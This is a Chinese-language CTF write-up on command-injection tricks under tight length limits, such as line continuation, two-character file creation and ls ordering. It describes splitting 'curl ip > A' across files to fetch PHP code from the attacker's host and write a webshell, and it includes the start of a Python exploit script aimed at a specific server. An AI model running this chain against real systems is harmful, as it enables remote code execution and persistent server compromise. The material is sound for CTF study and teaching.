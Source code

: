 #### **从网络下载文件**

![t0179a43f9481b4fbc6.png](t0179a43f9481b4fbc6.png)

#### **利用续行符拆分命令成多行**

![t01745a941a746a7ac0.png](t01d2eac72941e42be9.png)

#### **用两个字符在Linux下创建文件**

![t01485c8bfc8fbf987f.png](t019808b722225de73d.png)

#### **将命令执行结果重定向到文件**

![http://p9.qhimg.com/t01e45c7a16d86c4e2c.png](t012de068258a2e3d04.png)

#### **利用重定向向文件追加内容**

![http://p2.qhimg.com/t0125c23ce2f3d45621.png](t015f5da0f73df752b7.png)

#### **删除文件**

![http://p4.qhimg.com/t01e267cc27d6277631.png](t0121856133157c3f34.png)

#### **ls 的文件排列顺序**

一句alphabetical耐人寻味，不过大致顺序就是如下图所示。

![http://p7.qhimg.com/t01e104d2e591a66fcd.png](t01c4dd700d11f91860.png)

****

### **开始表演**

假设我有一台目标服务器能够访问到的公网主机，为了方便我把该主机IP转换成长整数，然后利用以上的知识将 curl ip > A 用续行方式切割成多行写进文件 A ，然后执行 sh A 就可以下载到预先放在公网主机上的文件并且覆盖本地的文件A，而下载下来的文件内容是用来写PHP木马的PHP代码，我再执行 php A就可以写个自己的webshell进去啦。

![http://p8.qhimg.com/t0106f100f423201580.png](t016294d3a767429eab.png)

这里比较取巧的是我的公网IP转成长整形恰好能分割成顺序的四段，如果构造不出来，可以试试十六进制，八进制，找台能用的主机等等：）或者继续往下看，还会有其他办法。

另外，其实GET也是能用的，只是目标主机里没有安装所以这题不能用。

接下来让我们完成最后30%的工作，写个exp。

```python
# -*- coding:utf8 -*-
import requests as r
import hashlib
url = 'http://52.199.204.34/'
# 查询自己的IP
ip = r.get('http://ipv4.icanhazip.com/').text.strip()
sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/'
 
reset = url + '?reset'
cmd = url + '?cmd='
build = ['>cur\',
         '>l \',
         'ls>A',
         'rm c*',
         'rm l*',
         '>105\',
         '>304\',
         '>301\',
         '>9>\',
```